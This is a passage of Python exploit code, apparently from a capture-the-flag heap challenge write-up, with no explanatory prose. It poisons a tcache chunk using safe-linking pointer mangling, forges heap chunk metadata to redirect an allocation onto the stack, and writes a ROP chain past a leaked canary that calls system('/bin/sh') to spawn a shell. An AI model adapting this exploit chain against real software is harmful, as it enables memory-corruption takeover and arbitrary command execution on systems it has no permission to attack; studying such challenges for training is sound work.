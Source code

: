 ```python {hide=true}

    logout()
    login('a'*31, p8(0)*8)
    dele(11) # free fake 0x100 tcache chunk

    logout()
    login('a'*31, p8(0x40)*8)
    dele(10)

    ret_addr = stack_addr - 0x150
    protect_ptr = (ret_addr-0x18) ^ ((heap_base+0x3c0)>>12) # modify 0x100 tcache chunk's next
    payload = b""
    payload += p64(0)*3 + p64(0x101)
    payload += p64(protect_ptr)
    payload += p64(0)*4
    payload += p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #16

    payload = b""
    payload += p64(0)*3
    payload += p64(0x31)
    payload += p32(0xa) + p32(0x36)
    payload += p64(heap_base + 0x390)
    payload += p64(heap_base + 0x390)
    payload += p64(heap_base + 0x397)
    payload += p64(heap_base + 0x3a0)
    payload += p64(0x21)
    payload += b"a"*6 + b'\x00' + b'\x40'*8 + b'\x00'*9
    payload += p64(0x31)
    payload += p32(0x5) + p32(0x6)
    payload += p64(heap_base + 0x470)
    payload += p64(heap_base + 0x470)
    payload += p64(heap_base + 0x477)
    payload += p64(heap_base + 0x480)
    payload += p64(0x21)
    payload += b"a"*6 + b'\x00' + b'\x40'*8 + b'\x00'*9
    payload += p64(0x31)
    payload += p32(0xf0) + p32(0x11)
    payload += p64(0)*2
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #17

    dele(5)
    logout()
    login(b'a'*31, b'\x00'*8)

    prdi = libc_base + 0x0000000000102e2a
    ret = libc_base + 0x0000000000024578
    system = libc_base + 0x0000000000053b00
    binsh = libc_base + 0x00000000001b0ebc
    rop = b'\x00'*6
    rop += p64(ret)
    rop += p64(prdi)
    rop += p64(binsh)
    rop += p64(system)
    rop = rop.ljust(0xe4, b'\x00')
    rop = enc(rop, p64(canary)[1:]+p8(1))
    add(b'a'*8, p64(canary)[1:]+p8(1), rop)
```
